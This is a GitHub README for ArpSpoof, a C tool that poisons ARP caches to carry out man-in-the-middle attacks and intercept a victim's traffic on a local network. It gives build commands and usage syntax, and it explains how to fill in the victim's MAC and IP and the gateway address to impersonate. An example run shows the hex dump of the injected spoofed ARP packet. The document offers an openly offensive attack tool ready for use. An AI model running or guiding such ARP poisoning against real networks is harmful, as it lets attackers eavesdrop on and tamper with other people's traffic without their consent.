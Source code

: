 # ArpSpoof: ARP cache poisoner

ArpSpoof is a simple ARP cache poisoning program coded in C. This a very little and simple tool, which provides an interface to throw a Man In The Middle attack in a local network and intercept the network traffic of the victim.

- Synopsis
- Description
- Options
- Example
- Links

# Synopsis

Get and build ArpSpoof.

```
$ git clone https://github.com/VincentDary/ArpSpoof.git
$ cd ArpSpoof
$ make && make clean
```

Usage:

```
# ./ArpSpoof
#  usage: ArpSpoof <interface> <target mac> <target IPv4> <source mac> <fake IPv4>
```

# Description

ArpSpoof is a ARP cache poisoning program for the MITM attack based on ARP poisoning, more information about this [attack](https://www.information-security.fr/attaque-man-in-the-middle-via-arp-spoofing/).

# Options

- **_interface_**

The network interface where to start the ARP packets injection.


- **_target mac_**

The target MAC address of the victim.


- **_target IPv4_**

The target IPv4 address of the victim.


- **_source mac_**

The source MAC address associated to the <interface> parameter, where the ARP packets injection is started.


- **_fake IPv4_**

The IPv4 address to usurp.


Note:

This tool doesn't forward the network traffic of the victim. It's more flexible solution. You can use an other tool for this or enable it on your machine or on the machine where the network traffic is redirect.

## Example

 Use example with the following network configuration:

- Attacker:
Network interface = eth0
MAC address = 00:11:50:22:55:14
- Victim:
IPv4 = 192.168.1.56
MAC address = 00:A0:D1:DC:79:80
- Gateway:
IPv4 = 192.168.1.1

```
#./ArpSpoof eth0 00:A0:D1:DC:79:80 192.168.1.56 00:11:50:22:55:14 192.168.1.1

  ARP packet write on wire, 42 bytes :

 00 a0 d1 dc 79 80 00 11   50 22 55 14 08 06 00 01  |  ....y...  P"U.....
 08 00 06 04 00 01 00 11   50 22 55 14 c0 a8 01 01  |  ........  P"U.....
 00 a0 d1 dc 79 80 c0 a8   01 38 .. .. .. .. .. ..  |  ....y...  .8

```

## Links

[1] MITM attack based on ARP poisoning:

[ https://www.information-security.fr/attaque-man-in-the-middle-via-arp-spoofing/]( https://www.information-security.fr/attaque-man-in-the-middle-via-arp-spoofing/)
